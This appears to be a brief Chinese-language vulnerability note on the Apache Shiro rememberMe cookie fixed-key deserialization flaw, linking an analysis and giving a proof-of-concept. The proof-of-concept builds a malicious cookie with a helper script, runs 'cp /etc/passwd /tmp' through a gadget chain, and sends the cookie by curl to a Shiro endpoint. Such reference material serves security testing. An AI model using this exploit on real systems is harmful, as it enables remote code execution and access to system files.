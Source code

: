 ### Shiro rememberMe cookie 固定秘钥反序列化漏洞

参考链接

* [Apache Shiro Java 反序列化漏洞分析](http://blog.knownsec.com/2016/08/apache-shiro-java/)

Poc

```
# 使用 jdku21 gadget

python2.7 /root/build-cookie.py "cp /etc/passwd /tmp"
curl 127.0.0.1/shiro/ -H "Cookie: $(cat /tmp/cookie.txt)"
```

